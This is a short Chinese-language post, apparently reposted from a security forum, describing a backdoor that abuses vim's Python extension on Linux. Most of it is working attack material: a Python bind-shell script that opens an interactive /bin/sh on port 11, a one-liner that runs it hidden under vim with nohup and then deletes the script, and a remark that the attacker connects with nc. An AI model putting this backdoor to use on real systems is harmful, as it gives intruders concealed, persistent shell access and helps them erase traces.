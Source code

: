# vim python 拓展后门

> 原文：[https://www.zhihuifly.com/t/topic/3493](https://www.zhihuifly.com/t/topic/3493)

# vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。可以通过vim的pyfile来执行python脚本。这里我复现使用了docker centos 6.8，yum默认安装的vim。下面的pdf是发现者对外公开的思路：

> https://github.com/ianxtianxt/WOTD

这里我们使用一个python开启本地监听11端口的脚本。 POC:

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True) 
```

```
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py 
```

执行以后：

![image](img/f0d0ea2865d9d8b8e9a0795e3b91ae5c.png)

![image](img/f674d1ac7b3fe5795ee7e3ff00b175d2.png)

我在攻击机nc连接过去就可以了。